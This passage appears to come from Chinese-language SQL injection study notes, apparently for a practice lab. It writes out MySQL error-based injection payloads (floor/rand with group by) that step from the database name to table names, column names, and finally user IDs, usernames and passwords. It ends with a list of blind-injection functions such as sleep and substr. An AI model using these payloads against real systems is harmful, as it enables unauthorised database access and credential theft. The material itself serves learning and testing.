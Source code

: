 ```mysql
payload = database()

union and (select * from (select concat_ws("^",database(),floor(rand(0)*2))x,count(*) from information_schema.tables group by x)y) --+
```

#### 获取表名

替换limit参数即可

```mysql
payload = (select table_name from information_schema.tables where table_schema='security' limit 0,1)

union and (select * from (select concat_ws("^",(select table_name from information_schema.tables where table_schema='security' limit 0,1),floor(rand(0)*2))x,count(*) from information_schema.tables group by x)y) --+ 
```

#### 获取字段名

替换limit参数即可

```mysql
payload = (select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1)

union and (select * from (select concat_ws("^",(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),floor(rand(0)*2))x,count(*) from information_schema.tables group by x)y) --+ 
```

#### 爆字段

替换limit参数即可

```mysql
payload = (select concat_ws("^",id,username,password) from users limit 0,1)

union and (select * from (select concat_ws("^",(select concat_ws("^",id,username,password) from users limit 0,1),floor(rand(0)*2))x,count(*) from information_schema.tables group by x)y) --+ 
```





(XPath)    updatexml(xml_doc,string,new value)



## 盲注用到的函数

sleep()、length() 、 substr() 、mid() 、left() 、ord()、ascii() 、right() 、if()、 reverse()

sleep()：MySQL中执行select sleep(N)可以让此语句运行N秒钟

length()： 返回字符串的长度
